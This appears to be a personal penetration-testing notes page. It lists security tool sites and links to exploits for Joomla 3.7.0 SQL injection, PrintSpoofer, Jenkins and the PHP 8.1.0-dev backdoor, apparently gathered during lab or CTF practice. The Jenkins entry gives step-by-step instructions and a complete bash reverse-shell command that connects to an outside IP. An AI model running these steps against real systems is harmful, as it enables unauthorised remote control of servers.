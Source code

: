 ## Add cool sites / tools

https://sqliteonline.com/

https://vk9-sec.com/reverse-shell-on-any-cms/

https://enotes.nickapic.com/

https://explainshell.com/

https://en.wikipedia.org/wiki/List_of_file_signatures

https://osintframework.com/

## Documente some learned exploits
- Joomla 3.7.0 CVE-2017-8917 SQLi exploit   python script: https://github.com/XiphosResearch/exploits/blob/master/Joomblah/joomblah.py

- Vuln: printspoofer : To escalate privileges, the service account must have SeImpersonate privileges. (check with whoam /priv): 
https://github.com/dievus/printspoofer

- Jenkins Exploit
  - https://www.n00py.io/2017/01/compromising-jenkins-and-extracting-credentials/
  - https://infosecwriteups.com/tryhackme-internal-writeup-480ce471efdd

- Jenkins: Or build a new project: 
   - New Item > Freestyle project > Build > Add build stp > Execute shell" (or batch, depending host) 
   - paste reverse shell code (exemple: bash -c 'exec bash -i &>/dev/tcp/10.14.26.186/7777 <&1' )
   - save. 
   - set up netcat listener on ur host and run "Build Now" on Jenkins project. Grab your reverse shell as jenkins

- PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution  https://www.exploit-db.com/exploits/49933
  - Reverse shell script https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py
  - Details https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
